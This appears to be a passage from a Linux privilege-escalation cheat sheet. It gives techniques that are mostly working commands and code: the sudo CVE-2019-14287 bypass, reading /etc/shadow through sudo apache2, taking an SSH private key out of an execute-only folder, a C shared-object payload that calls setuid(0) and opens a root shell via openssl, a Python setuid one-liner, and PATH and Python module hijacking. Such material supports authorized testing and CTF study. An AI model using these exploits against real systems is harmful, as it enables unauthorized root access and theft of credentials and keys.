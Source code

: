 Search SUID and follow instructions provided by [https://gtfobins.github.io/](https://gtfobins.github.io/)
### Sudo vulnerability CVE-2019-14287
If `sudo -l` returned `(ALL, !root)` and is below version 1.8.28, this method might work.
```nix
sudo -u#-1
```
Read more at [https://blog.aquasec.com/cve-2019-14287-sudo-linux-vulnerability](https://blog.aquasec.com/cve-2019-14287-sudo-linux-vulnerability)
### Sudo using absolute path
If `sudo -l` returned `(ALL) NOPASSWD: /path/to/bin /path/to/file`, this method might work.
```nix
sudo /path/to/bin /path/to/file
```
### View sensitive files if apache2 is in sudo privileges
```nix
sudo apache2 -f /etc/shadow
```
### Misconfigured executable permission on a folder
If a folder has executable permissions, commands can be used to view its contents
```nix
Total 1
drwx--x--x  2 admin        admin        4096 Jul  3  2020 secret
```
```nix
cat secret/.ssh/id_rsa
```
### Abusing Unix capabilities
If any binary has capabilities set to `cap_setuid+ep`. We can abuse it to gain root privileges by changing our UID to `0`. Below is an example using OpenSSL.
```c
#include <unistd.h>

__attribute__((constructor))
static void init() {
    setuid(0); // root
    execl("/bin/sh", "sh", NULL);
}
```
```nix
gcc -fPIC -o exploit.o -c exploit.c && gcc -shared -o exploit.so -lcrypto exploit.o
```
```nix
openssl req -engine ./exploit.so
```
Another example using Python
```nix
/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash");'
```
### Hijacking relative PATHs
This is only applicable when a binary is calling another binary using relative path instead of an absolute path. The binary being called can be replaced by a malicious one with the same name but on a different directory, preferably in `/tmp` or `/dev/shm`. More information can be found [here](https://youtu.be/PgQyuogGgPI?t=4140).
- `chmod 600 /file` is a relative path
- `/usr/bin/chmod 600 /file` is an absolute path
```nix
PATH=/tmp:$PATH /target_file/calling_relative/path_binary
```
### Python module manipulation
This is only applicable when a python file is present and is importing a package. This can be used as a vector for privilege escalation by replacing the package with a malicious version. More information can be found [here](https://youtu.be/v8pJDTpaLXY?t=600).